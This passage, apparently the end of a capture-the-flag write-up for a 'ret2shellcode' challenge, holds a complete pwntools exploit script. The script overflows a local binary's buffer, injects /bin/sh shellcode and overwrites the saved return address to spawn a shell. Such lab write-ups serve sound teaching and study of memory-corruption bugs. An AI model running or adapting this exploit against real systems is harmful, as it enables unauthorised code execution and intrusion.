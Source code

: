 ## Final Exploit
```py
#!/usr/bin/env python3
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process()

context.binary = elf = ELF('./ret2shellcode')
libc = elf.libc
start()

### Exploit Goes here ###
offset = 0x68

p.recvline()
buf_addr = int(p.recvline().split()[-1], 16)

shellcode = asm(shellcraft.linux.sh())

# store the shellcode
payload = shellcode
# Add junk until we reach saved RIP
payload += b'A'*(offset - len(shellcode))
# Overwrite RIP with buf's address
payload += p64(buf_addr)

# sendline because gets waits until a newline(\n)
p.sendline(payload)

p.interactive()
p.close()
```
If any of you have any questions/doubts, you can reach out to me on discord (stdnoerr#7880) or on twitter (@stdnoerr).
